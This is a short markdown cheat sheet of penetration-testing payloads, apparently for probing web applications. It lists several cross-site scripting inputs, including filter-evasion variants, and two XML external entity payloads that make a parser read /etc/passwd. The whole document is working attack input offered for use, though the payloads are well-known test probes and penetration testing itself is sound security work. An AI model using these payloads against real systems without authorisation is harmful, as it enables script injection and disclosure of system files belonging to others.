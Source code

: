 # Pentest Payloads

## XSS
	<script>alert('XSS')</script>
	<scr<script>ipt>alert('XSS')</scr<script>ipt>
	"><script>alert('XSS')</script>
	"><script>alert(String.fromCharCode(88,83,83))</script>

## XXE
	<?xml version="1.0"?>
	<!DOCTYPE data [
	<!ELEMENT data (#ANY)>
	<!ENTITY file SYSTEM "file:///etc/passwd">
	]>
	<data>&file;</data>

	<?xml version="1.0" encoding="ISO-8859-1"?>
  	  <!DOCTYPE foo [  
  	  <!ELEMENT foo ANY >
  	  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
